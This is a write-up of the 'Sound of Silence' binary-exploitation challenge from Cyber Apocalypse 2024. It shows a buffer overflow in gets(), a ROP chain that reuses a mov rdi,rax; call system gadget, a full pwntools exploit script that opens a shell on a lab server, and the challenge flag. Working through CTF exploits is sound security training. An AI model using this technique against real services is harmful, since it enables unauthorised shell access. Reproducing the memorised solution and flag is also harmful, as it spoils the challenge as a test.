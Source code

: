 ```yaml
---
title: "Sound of Silence - Writeup | Cyber Apocalypse 2024"
layout: post
author: Jorge Moreno
---
```


This challenge is part of the event [Cyber Apocalypse 2024: Hacker Royale](../cyber-apocalypse-ctf-2024)

## Challenge Description
---

> Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!
> 

Challenge Author(s): w3th4nds \
Category: **Binary Explotation**  
Difficulty: **Medium**

## TL;DR
---
- In this challenge we take advantage of a gadget that moves the return value of a function inside ``rdi`` register to call ``system`` with ``gets`` as an argument.

## Challenge Solution
---

First, we check the file with ``file`` and ``checksec`` commands:

```console
sound_of_silence: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=e2468011150eb76534f79ed

❯ pwn checksec sound_of_silence
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
It does not have stack protector or PIE enabled. We can forget about shellcode because it has NX enabled.

Let's execute it and see what happens:

```console
~The Sound of Silence is mesmerising~

>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./sound_of_silence
```

The program asks for input and after **40** bytes it crashes with ``sigsegv``.  
After decompiling with **Ghidra** we see the code for the only function that it has ``main()``
```c
void main(void)
{
  char buf[32];
  
  system("clear && echo -n \'~The Sound of Silence is mesmerising~\n\n>> \'");
  gets(buf);
  return;
}
```
Looks good! We have a ``gets()`` function, it should be an easy ``ret2libc`` right?

Well we weren't that lucky this time. This binary has no ``plt`` functions other than ``gets@PLT`` and ``system@PLT``. 
```nasm
pwndbg> i fun
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401050  system@plt
0x0000000000401060  gets@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401156  main
0x0000000000401188  _fini
``` 
Let's take a look at the disassembly of the function. 

```nasm
<main>:
   0x0000000000401156 <+0>:     endbr64
   0x000000000040115a <+4>:     push   rbp
   0x000000000040115b <+5>:     mov    rbp,rsp
   0x000000000040115e <+8>:     sub    rsp,0x20
   0x0000000000401162 <+12>:    lea    rax,[rip+0xe9f]        # 0x402008
   0x0000000000401169 <+19>:    mov    rdi,rax
   0x000000000040116c <+22>:    call   0x401050 <system@plt>
   0x0000000000401171 <+27>:    lea    rax,[rbp-0x20]
   0x0000000000401175 <+31>:    mov    rdi,rax
   0x0000000000401178 <+34>:    mov    eax,0x0
   0x000000000040117d <+39>:    call   0x401060 <gets@plt>
   0x0000000000401182 <+44>:    nop
   0x0000000000401183 <+45>:    leave
   0x0000000000401184 <+46>:    ret
```

It loads the string ``clear && echo -n '~The Sound of Silence is mesmerising~\n\n>> '`` into ``rax`` and moves it ``mov rdi, rax``. Then calls ``system``.
The attack will be as follows:
- Use the ``gets()`` function to overflow the buffer and call ``gets()`` again.
- Send ``/bin/sh``
- *ROP* back to ``mov rdi, rax;`` so ``rdi`` has the address of our ``/bin/sh`` string
- Wait for our shell 

> ***NOTE:*** The function's return value is always stored in ``rax`` register.

We can craft our payload with the following structure: ``PADDING + gets@PLT + <mov rdi, rax; system@PLT>``
We can add a ``ret`` gadget for stack aligning purposes.
```python
mov_rdi_rax_system = 0x0000000000401169  # mov rdi, rax; call <system@plt>
offset = 40
ret = 0x000000000040101a

payload = b'A' * offset  
payload += flat(exe.plt.gets) + flat(ret) 
payload += flat(mov_rdi_rax_system)

io.sendlineafter(b'>>', payload)
io.sendline(b'/bin/sh')

io.interactive()
```

But after executing this we see it crashes.
```console
❯ python3 exp.py
 sh: 1: /bin.sh: not found
$  
```

Looks like for whatever reason it turned ``/`` into ``.``
With python console we can see that it is subtracting 1 to the value we send in the 4th position of the string.
```console
❯ python3
Python 3.11.8 (main, Feb  7 2024, 21:52:08) [GCC 13.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> ord('/')
47
>>> ord('.')
46
``` 
> ``chr(48) = '0'``  

Then the only thing we have to do now is change ``/bin/sh`` to ``/bin0sh`` and get our flag.

```console
❯ python3 exp.py
 $ id
uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio) ...
```

### Full Script
---

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or './sound_of_silence', checksec = False)
context.log_level = 'warning'

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("94.237.53.81", 48107)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())
io = start()

mov_rdi_rax_system = 0x0000000000401169  # mov rdi, rax; call <system@plt>
offset = 40
ret = 0x000000000040101a

payload = b'A' * offset  
payload += flat(exe.plt.gets) + flat(ret) 
payload += flat(mov_rdi_rax_system)

io.sendlineafter(b'>>', payload)
io.sendline(b'/bin0sh')

io.interactive()
```
  
**FLAG - HTB{n0_n33d_4_l34k5_wh3n_u_h4v3_5y5t3m}**